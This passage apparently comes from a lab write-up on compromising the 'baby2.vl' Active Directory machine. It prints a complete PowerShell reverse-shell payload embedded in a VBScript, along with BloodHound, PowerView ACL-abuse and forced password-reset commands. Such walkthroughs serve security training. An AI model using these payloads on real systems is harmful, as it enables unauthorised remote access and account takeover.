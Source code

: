 We can see that we can actually control the file: `ACL:Everyone:ALLOWED/I/FULL`

So let's modify the file to get us the initial foothold by spawning a PowerShell reverse shell.

```vb
createobject("wscript.shell").run"cmd.exe /c powershell ""$client=New-Object System.Net.Sockets.TCPClient('10.8.0.107',9192);$stream=$client.GetStream();[byte[]]$bytes=0..65535|%{0};while(($i=$stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback=(iex $data 2>&1|Out-String);$sendback2=$sendback+'PS '+(pwd).Path+'> ';$sendbyte=([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()",0
```

![](/assets/images/Pasted image 20231228125736.png)

We spawned a shell which belongs to `Amelia.Griffiths`, we can now read the user flag.
## Privilege Escalation

For this part, we must enumerate the environment first, so let's use python's version of bloodhound.

```
$ bloodhoundpy -c All -d baby2.vl -dc dc.baby2.vl -u Carl.Moore -p 'Carl.Moore' -ns 10.10.101.112
```

And after we gather all the stuff and load them into bloodhound, we can see what permission does our owned user 

![](/assets/images/Pasted image 20231228124055.png)

`Amelia.Griffiths` Is a member of a group called `LEGACY` which has `WriteDacl` permissions over the `GPOADM` user of the domain, in that case let's use those techniques: 

1. [Grant Rights](https://www.thehacker.recipes/a-d/movement/dacl/grant-rights)
2. [ForceChangePassword](https://www.thehacker.recipes/a-d/movement/dacl/forcechangepassword).

Transfer the [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) to the machine and then:

```
PS > . .\PowerView.ps1
PS > Add-DomainObjectAcl -Rights 'All' -TargetIdentity "GPOADM" -PrincipalIdentity "Amelia.Griffiths"
```

We are granting `GenericALL` over the user `GPOADM` and then we can use the second technique:

```
PS > $UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
PS > Set-DomainUserPassword -Identity GPOADM -AccountPassword $UserPassword
```

Then we can try if that worked:

![](/assets/images/Pasted image 20231231102612.png)

We can try using `evil-winrm` to log in, but that won't work just yet, just because if we list the local accounts on the machine we don't actually have the `gpoadm` user there, so we must add it first. In order to that, we must abuse the GPO rights, using the **[Immediate Scheduled Task](https://www.thehacker.recipes/a-d/movement/group-policies#immediate-scheduled-task) technique.
